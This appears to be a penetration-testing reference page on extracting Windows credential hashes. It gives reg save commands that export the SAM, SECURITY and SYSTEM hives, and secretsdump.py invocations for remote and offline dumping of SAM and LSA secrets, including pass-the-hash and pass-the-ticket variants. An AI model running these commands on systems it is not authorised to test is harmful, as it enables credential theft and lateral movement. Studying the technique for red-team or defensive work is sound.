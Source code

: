 # SAM & Registry

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS (e.g. when booting the computer on another operating system). The hive files can be found at the following locations.

```
\system32\config\sam
\system32\config\security
\system32\config\system
```

{% hint style="info" %}
Hives files can also be exfiltrated from live systems using Volume Shadow Copy.
{% endhint %}

the we download the 3 files and extract the hashes with secretsdump:

```
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
​
# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
​
# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'
​
# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
​
# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL
​
# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```

## <mark style="color:red;">Other Resources</mark>

{% embed url="https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b" %}

{% embed url="http://moyix.blogspot.com/2008/02/syskey-and-sam.html" %}
